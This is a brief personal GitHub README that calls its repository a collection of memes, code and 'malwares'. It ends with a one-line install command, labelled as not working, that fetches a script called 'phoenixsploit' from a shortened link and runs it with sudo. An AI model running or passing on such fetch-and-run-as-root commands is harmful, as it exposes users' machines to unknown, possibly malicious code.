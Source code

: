 # phoenixthrush.github.io
Just memes, codes, malwares, an archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

<br>


NEW UPDATE!
DOES NOT FUNCTION

wget https://bit.ly/phoenixsploit phoenix.sh && sudo chmod +x phoenix.sh && sudo ./phoenix.sh
